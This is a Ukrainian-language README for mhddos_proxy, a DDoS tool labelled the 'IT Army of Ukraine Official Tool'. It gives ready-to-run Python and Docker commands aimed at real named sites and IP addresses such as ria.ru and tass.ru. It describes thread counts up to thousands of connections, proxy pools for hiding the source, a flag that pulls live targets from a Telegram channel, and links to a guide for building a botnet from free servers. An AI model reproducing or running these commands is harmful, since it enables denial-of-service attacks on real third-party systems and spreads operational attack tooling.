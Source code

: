 ## IT Army of Ukraine Official Tool 

### [English Version](/README-EN.md)

- Вбудована база проксі з величезною кількістю IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **21.05.2022**
  - Додано англійську локалізацію - параметр `--lang EN` (в майбутньому можуть бути додані інші мови)

- **18.05.2022**
  - Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).

- **15.05.2022**
  - Повністю оновлена асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему
  - Ефективна робота зі значно більшими значеннями параметру `-t` (до 10k) без ризику "підвісити" усю машину
  - Абсолютно новий алгоритм розподілення навантаження між цілями з метою досягнення максимальної потужності
  - Додано методи `RGET`, `RHEAD`, `RHEX` та `STOMP`.

### 💽 Встановлення - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск (наведено різні варіанти цілей)

#### Python (якщо не працює - просто python або python3.10 замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - максимальна кількість одночасно відкритих зʼєднань, за замовчуванням 7500 (або 1500 якщо на машині лише 1 CPU)

    python3 runner.py -t 7500 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід роботи, додайте параметр  `--debug` для тексту, `--table` для таблиці

    python3 runner.py https://ria.ru --debug

Щоб додати ваш IP/VPN до атаки (особливо актуально для виділених серверів)

    python3 runner.py https://ria.ru https://tass.ru --vpn

Щоб обрати цілі від https://t.me/itarmyofukraine2022 додайте параметр `--itarmy`  

    python3 runner.py --itarmy --debug

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Total number of threads to run (default is 7500 if CPU > 1, 1500 otherwise)
      --table / --debug      Print log as table / as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

де `protocol` може бути одним з 3-ох: `http`|`socks4`|`socks5`, якщо `protocol`не вказувати, то буде обрано `http`  
наприклад для публічного проксі `socks4` формат буде таким:

    socks4://114.231.123.38:3065

а для приватного `socks4` формат може бути одним з таких:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt

де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний параметр (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
